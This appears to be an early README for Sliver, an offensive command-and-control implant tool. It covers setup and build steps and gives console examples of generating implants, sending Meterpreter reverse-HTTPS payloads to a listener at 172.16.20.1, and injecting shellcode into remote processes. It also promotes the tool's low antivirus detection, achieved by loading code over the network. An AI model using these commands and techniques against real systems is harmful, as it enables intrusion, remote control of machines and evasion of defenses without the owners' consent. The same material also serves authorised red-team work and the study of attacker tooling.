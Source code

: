 Sliver
======

![Sliver](/sliver/sliver.jpeg)

Sliver is a remote shellcode loading and injection service that uses end-to-end encryption (mTLS) for all network traffic. Implants are dynamically compiled with unique X.509 certificates signed by a per-instance certificate authority generated when you first run the binary. Sliver can load arbitrary shellcode but also integrates with MSFVenom to automatically generate, execute, and manage Meterpreter payloads. Sliver binaries have very low anti-virus detection as they do not contain any malicous code themselves and instead dynamically load it over the network.

Sliver can inject payloads into it's own process or optionally use remote thread injection to execute payloads in a remote processes to which your execution context has access.

```
[attacker] <-(mTLS)-> [sliver] -(code injection)-> [remote process]
```

### Setup

1. Install Metasploit Framework v5 or later
2. Download the latest [Sliver](https://github.com/BishopFox/sliver/releases) binary
3. ???
4. Shellz

### Generating Client Binaries

Simply use the `gen` command to generate client binaries on the fly:

```
[*] Welcome to the sliver shell, see `help` for available commands

sliver > gen -save /root/ -lhost 172.16.20.1
 gen -save /root/ -lhost 172.16.20.1

[*] Generating new windows/amd64 sliver binary, please wait ...
[*] Generated sliver binary at: /root/DEVELOPING_CLEAVAGE.exe
```

You're done! The binary has already been embedded with a unique X.509 certificate (for mutual TLS) and the server configuration.


### Local Thread Execution

Execute shellcode in the local process:

```
sliver (NURSING_BEETLE) > msf -lhost 172.16.20.1
 msf -lhost 172.16.20.1
[*] Generating meterpreter_reverse_https windows/amd64 -> 172.16.20.1:4444 ...
[*] Successfully generated payload 207449 byte(s)
[*] Sending payload -> NURSING_BEETLE
[*] Sucessfully sent payload
```

### Remote Thread Injection

Inject shellcode into remote processes:

```
sliver (NURSING_BEETLE) > inject -pid 3100 -lhost 172.16.20.1
 inject -pid 3100 -lhost 172.16.20.1
[*] Generating meterpreter_reverse_https windows/amd64 -> 172.16.20.1:4444 ...
[*] Successfully generated payload 207449 byte(s)
[*] Sending payload -> NURSING_BEETLE -> PID: 3100
[*] Sucessfully sent payload
```

Sliver also has a built-in `ps` command.

### Multi-player Mode

Sliver can also execute multiple payloads per connection. This can be helpful if your meterpreter session dies, or if you want to play with friends:

```
sliver (STUPID_AIRBAG) > msf -lhost 172.16.20.1
 msf -lhost 172.16.20.1
[*] Generating windows/amd64 -> 172.16.20.1:4444 ...
[*] Successfully generated payload 207449 byte(s)
[*] Sending payload -> STUPID_AIRBAG
[*] Sucessfully sent payload
sliver (STUPID_AIRBAG) > msf -lhost 172.16.20.2
 msf -lhost 172.16.20.2
[*] Generating windows/amd64 -> 172.16.20.2:4444 ...
[*] Successfully generated payload 207449 byte(s)
[*] Sending payload -> STUPID_AIRBAG
[*] Sucessfully sent payload
```

## Compile From Source

You'll want to compile from a MacOS or Linux machine, compiling from Windows should work but none of the scripts are designed to run on Windows (you can compile the Windows binaries from MacOS or Linux).

Requirements:
* Metasploit Framework v5 or later
* Go v1.11 or later
* Make, sed, tar, wget, zip

Build thin server (for developement)

```
$ ./deps.sh
$ ./go-assets.sh
$ make
```

Statically compile and bundle server with all dependencies and assets:

```
$ make static-macos
$ make static-linux
$ make static-windows
```
